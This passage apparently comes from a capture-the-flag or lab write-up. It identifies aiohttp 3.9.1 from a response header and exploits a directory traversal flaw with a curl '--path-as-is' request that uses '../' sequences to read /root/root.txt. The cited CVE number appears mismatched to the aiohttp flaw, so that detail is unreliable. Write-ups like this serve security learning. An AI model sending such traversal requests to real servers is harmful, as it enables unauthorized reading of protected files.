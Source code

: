 - The response header revealed the service was powered by aiohttp/3.9.1,
  which is known to have vulnerabilities:

  - **Identified CVE**: CVE-2023-30589

  - **Description**: aiohttp versions prior to 3.9.2 are vulnerable to
    directory traversal attacks, allowing unauthorized access to files
    outside the intended directory.

**4. Exploitation**

- Leveraged the directory traversal vulnerability to access the root.txt
  file:

> curl \--path-as-is
> \"http://localhost:5001/assets/../../../../../root/root.txt\"
